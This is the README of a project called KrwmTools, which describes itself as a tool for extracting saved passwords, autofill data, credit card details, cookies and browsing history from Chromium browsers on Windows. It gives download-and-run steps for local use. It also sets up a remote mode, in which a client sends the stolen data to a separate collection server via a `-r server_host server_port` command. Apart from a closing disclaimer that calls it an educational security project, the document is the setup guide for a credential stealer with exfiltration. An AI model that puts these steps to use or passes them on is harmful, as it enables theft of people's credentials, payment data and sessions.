


# KrwmTools

A tool for extracting sensitive data from Chromium browsers on Windows. Able to extract:
- Credentials
- Autofill fields
- Autofill profiles
- Autofill addresses
- Autofill names
- Autofill emails
- Autofill phone numbers
- Credit card info
- Cookies
- History (search terms and web history)

Please check out [my writeup](writeup.md) as well :)

## Local Extraction

**Setup:**

<u>Option 1: Windows executable</u>
1. Download krwmtools-win.zip from Releases (on the right)
1. Extract and run the containing krwmtools.exe file. 

<u>Option 2: Directly with Python</u>
1. Install dependencies with `pip install client/requirements.txt`
1. Start the program with `python client/main.py`

Extracted data will be placed in your `Documents\KrwmTools\Client Logs` directory.

## Remote Extraction

**Server Setup:**
1. Install dependencies with `pip install server/requirements.txt`
1. Start the program with `python server/server.py`

Extracted data will be placed in the server's `Documents\KrwmTools\Server Logs` directory.

**Client Setup:**

<u>Option 1: Windows executable</u>

1. Download krwmtools-win.zip from Releases (on the right)
1. Extract krwmtools.exe from the zip file
1. Open Command Prompt and change to the directory containing the extracted executable file
1. Start the executable with the -r or --remote flag: `krwmtools.exe -r [OPTIONAL: server_host] [OPTIONAL: server_port]`

<u>Option 2: Directly with Python</u>
1. Install dependencies with `pip install client/requirements.txt`
1. Start the program with the -r or --remote flag: `python client/main.py -r [OPTIONAL: server_host] [OPTIONAL: server_port]`

Note: if no server_host is specified, the client will try to find the server on localhost. Extracted data will also be placed in the client's `Documents\KrwmTools\Client Logs` directory. 

## Disclaimer
This tool was made for educational purposes (for a university security project). Please do not use it on others illegally or without their explicit consent, and note that I am not responsible for any damage.
